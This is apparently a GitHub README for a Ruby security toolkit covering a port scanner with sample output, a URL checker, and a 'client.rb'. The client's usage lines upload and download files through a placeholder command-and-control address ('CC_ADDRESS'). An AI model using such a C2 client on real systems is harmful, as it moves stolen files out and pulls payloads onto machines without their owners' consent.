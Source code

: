 # RubySecRepo

### 1. NetworkScan 

Usage: 
```sh
$ ruby main.rb 192.168.1.1 192.168.1.3
```


Result:
```sh
192.168.1.1 - 80  -
192.168.1.1 - 443 -
192.168.1.2 - 80  - open
192.168.1.2 - 443 -
192.168.1.3 - 80  - open
192.168.1.3 - 443 -
```
### 2. URLChecker 
Usage: 
```sh
$ ruby main.rb 
```

### 3. Client.rb
Usage:
```sh
For download :> ruby client.rb d [http://CC_ADDRESS] [filename.ext]
For upload   :> ruby client.rb u [http://CC_ADDRESS] [filename.ext]
```
